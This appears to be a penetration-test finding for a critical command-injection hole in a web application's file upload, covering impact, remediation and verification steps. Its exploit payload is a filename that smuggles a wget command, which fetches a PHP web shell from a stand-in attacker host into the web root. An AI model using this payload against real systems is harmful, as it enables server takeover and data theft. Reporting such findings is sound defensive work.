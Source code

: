 **Severity:** CRITICAL  
**CVSS Score:** 9.8  
**Category:** Code Execution  
**CWE ID:** CWE-78

#### Description
A critical remote code execution vulnerability was identified in the web application that allows unauthenticated attackers to execute arbitrary system commands on the underlying server.

#### Affected Systems
- **Web Server** (192.168.1.10) - Production web application server
- **Database Server** (192.168.1.11) - Connected database server

#### Exploitation Details
The vulnerability exists in the file upload functionality where user-supplied filenames are passed directly to system commands without proper sanitization. By crafting a malicious filename containing shell metacharacters, an attacker can execute arbitrary commands.

**Exploit Payload:**
```bash
filename="test.jpg; wget http://attacker.com/shell.php -O /var/www/html/shell.php; #"
```

**Result:** Remote shell access with web server privileges

#### Evidence
- Successfully uploaded malicious file
- Executed system commands (id, whoami, ps aux)  
- Established persistent backdoor access
- Accessed configuration files and database credentials

#### Impact Assessment
**Technical Impact:**
- Confidentiality: HIGH - Complete server access
- Integrity: HIGH - Ability to modify any file
- Availability: MEDIUM - Potential for service disruption

**Business Impact:**
This vulnerability allows complete compromise of the web server, potentially leading to:
- Theft of customer data and personal information
- Modification of website content and functionality
- Use of server for botnet or cryptocurrency mining
- Lateral movement to other network systems

#### Remediation
1. Implement strict input validation for all user uploads
2. Use a whitelist approach for allowed file extensions
3. Store uploaded files outside the web root directory
4. Run web application with minimal system privileges
5. Deploy Web Application Firewall (WAF) with upload restrictions
6. Implement file type validation using file signatures
7. Add comprehensive logging for all file upload activities

#### Verification Steps
1. Test file upload with various malicious payloads
2. Verify uploaded files cannot execute system commands
3. Confirm files are stored in secure location
4. Test with different file extensions and MIME types
5. Validate logging captures all upload attempts

---